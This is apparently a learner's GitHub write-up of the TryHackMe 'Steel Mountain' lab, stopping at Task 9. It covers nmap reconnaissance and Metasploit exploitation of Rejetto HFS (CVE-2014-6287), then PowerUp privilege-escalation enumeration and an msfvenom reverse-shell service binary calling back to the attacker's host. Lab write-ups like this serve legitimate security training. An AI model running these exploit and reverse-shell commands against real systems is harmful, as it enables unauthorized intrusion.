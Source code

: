 # THM-SteelMountain
I lerarn how haced the Windows machine. I use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and I learn a new technique to get Administrator access.

<THM Steel Mountain room

#Task1 Open website in adress 10.10.135.167 in Virtaul Machine. I open page source preview to see name employee of the month: `Bill Harper`

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain1.png)


#Task2 I scan maschin the command: `nmap -sV -sC 10.10.135.167` and I find running web serwer on 8080 port. And another serwer Rejetto HTTP File Server

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain2.png)


#Task3 I find in exploit-database exploit "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)" with number `CVE-2014-6287`.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain3.png)


#Task4 I Use Metasploit to get an initial shell.
Command: 
````
msfconsole
search CVE-2014-6287
use 0
options
set RHOST 10.10.135.167
set RPORT 8080
exploit
````

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain4.png)
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain5.png)

#Task5 Now I have access to system bill and I must find Desktop and user flag. I use many times command `cd ..` that  I been in directory 
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs and I want go to Desktop. 

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain6.png)

I find `user.txt` and on it flag.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain7.png)

#Task6 To enumerate this machine, I will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities.
I have to copy code PowerUp from GitHub. I use command : git clone https://github.com/PowerShellMafia/PowerSploit.git and code is in my home page.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/fe641f35183ff4c3cb0a0e8184679a782874d5fd/SteelMountain9.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain10.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain11.png)


#Task7 Start power shell using 
command in the Meterpreter: 
``
powershell_shell
PowerUp.ps1
Invoke-AllChecks
``

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain12.png)


#Task8 I found to the CanRestart option that is set to true AdvancedSystemCareService9. 
The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
 #Task9 Use msfvenom to generate a reverse shell as an Windows executable. I use command: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.3.245 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
 
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain13.png)
